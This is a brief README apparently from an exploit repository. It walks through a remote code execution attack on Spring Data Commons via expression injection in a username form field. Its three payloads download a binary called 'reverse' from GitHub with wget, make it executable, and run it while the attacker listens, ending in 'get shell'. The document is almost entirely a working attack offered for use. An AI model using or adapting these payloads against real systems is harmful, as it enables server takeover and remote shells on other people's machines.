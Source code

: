 # Spring_Data_Commons

- change the command on python file line 5 

- data = {'username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("wget https://github.com/boson13579/Container-breakout/raw/master/reverse")]':'test&password=test&repeatedPassword=test'}

- excute python

- data = {'username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("chmod +x reverse")]':'test&password=test&repeatedPassword=test'}

- excute python 

- attacker start listening

- data = {'username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("./reverse")]':'test&password=test&repeatedPassword=test'}

- excute python

- get shell
